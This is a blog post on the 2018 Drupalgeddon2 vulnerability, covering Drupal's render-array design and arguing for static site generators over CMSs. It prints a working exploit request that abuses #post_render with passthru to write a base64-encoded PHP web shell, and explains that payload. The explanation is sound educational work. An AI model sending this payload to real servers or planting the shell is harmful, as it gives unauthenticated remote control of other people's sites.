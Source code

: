 ```yaml
---
layout: post
title: Drupalgeddon2 and the danger of CMSs
permalink: /drupalgeddon2
tags: infosec
---
```


Yesterday I gave a talk on [Drupalgeddon2](https://arstechnica.com/information-technology/2018/04/drupalgeddon2-touches-off-arms-race-to-mass-exploit-powerful-web-servers/) to a group of security enthusiasts and software developers. Drupal is a content management system (CMS) which powers up to 5% of all websites, including websites of [most of the world's governments](https://groups.drupal.org/government-sites), so an unauthenticated remote code execution vulnerability in it is a Very Big Deal.

It has become impossible to ignore the political effects of exploits like this in recent years. The [original Drupalgeddon](https://www.drupal.org/project/drupalgeddon) is [suspected](https://www.drupal.org/forum/general/general-discussion/2016-05-04/so-was-drupal-used-for-the-mossack-fonseca-leak-or-not) of being the method used by hackers to obtain the [Panama Papers](https://en.wikipedia.org/wiki/Panama_Papers). However, what I want to discuss here are some technical details of the Drupalgeddon2 exploit itself, where it came from, and why using CMSs in 2018 is generally a bad idea.

Since version 6, central to Drupal's extensibility has been the concept of ["render arrays"](https://www.drupal.org/docs/8/api/render-api/render-arrays). Internally, Drupal represents the elements of a page as a tree of structured PHP arrays, somewhat like a [DOM](https://en.wikipedia.org/wiki/Document_Object_Model) for the backend. Eventually, the arrays are fed into Drupal's [rendering logic](https://github.com/drupal/drupal/blob/e81312ba480f77becccb29bfb0bc5a7d311aeea5/core/lib/Drupal/Core/Render/Renderer.php) which transforms them into HTML and sends them to the client. Rendering occurs both when a client initially loads the page, and when making an AJAX request upon submitting a form. Drupal admins and plugin authors can make use of a powerful [API](https://api.drupal.org/api/drupal/elements) to manipulate the data held in these arrays.

Here is an example of a Login Button represented as a render array with the Drupal Form API:

```php
$form['actions']['submit'] = array(
  '#type' => 'submit',
  '#markup' => '<span>' . t('Login') . '</span>',
  '#submit' => array( 'login_callback' ),
  '#prefix' => '<button type="submit">',
  '#suffix' => '</button>',
);
```

The flexibility that this provides to web developers is huge. Attributes can be added which specify functions to modify the array at any stage during the rendering process, for instance `#pre_render` or `#post_render`.

However, this flexibility comes at the cost of a large attack surface.

The Drupalgeddon2 exploit involves getting a render array containing a shell payload directly executed on the backend using one of these rendering function callbacks. In the [most polished exploit](https://github.com/dreadlocked/Drupalgeddon2), popping a shell on a Drupal 7 server is done like so:

```
/?q=user/password&name[#post_render][]=passthru&name[#type]=markup&name[#markup]=echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee ./s.php
```

Which, prettified, is submitting the following render array to the 'reset password' form:

```php
$name = [
  '#post_render' => ['passthru'], // Like exec, passthru 'passes through' to the system and executes a command
  '#type' => 'markup',
  '#markup' => 'echo PD9waH... | base64 -d | tee ./s.php' // Writes a minimal PHP shell
]
```

When I demonstrated this exploit to the audience, they were shocked. "You can just send that to the backend and it executes it unauthenticated?" "How does Drupal allow that?"

I think the more interesting question is: "if the vulnerability really is that simple, how did it take seven years for somebody to spot it?"

Perhaps intelligence agencies or other groups were aware of it, but&mdash;speculation aside&mdash;even after [the patch](https://github.com/drupal/drupal/commit/19b69fe8af55d8fac34a50563a238911b75f08f7) was publicly released, it still took security researchers two weeks to come up with an exploit.

This vulnerability, and those that continue to be discovered, show that Drupal is a web platform that's perhaps too powerful for its own good. It's jam-packed with features added by hundreds of contributors since 2000. It has so many features and such complex logic that, even after finding out the vulnerability involved non-whitelisted array keys starting with `#`, experts were hunting through the code for days trying to understand how to write an exploit for it.

It's not just Drupal that's implicated here. The majority of use-cases for CMSs would be better served by static site generators. Static sites are immune by default to the kinds of crazy vulnerabilities lurking in CMSs. They come with a host of [other benefits](https://www.netlify.com/blog/2016/05/18/9-reasons-your-site-should-be-static/). Previously, the main disadvantage of static site generators was that they were hard to use for non-technical people, but tooling has improved significantly in recent years.

I don't know if there will be a Drupalgeddon3, but I'm certain that as long as most of the web runs on ancient, monolithic PHP platforms, huge bugs like this will continue to be found, and will continue to cause great alarm. Or great amusement, if you are 'that kind' of person in cybersecurity.

### Credit

[Check Point Research](https://research.checkpoint.com/uncovering-drupalgeddon-2/) for being the first to describe the vulnerability.

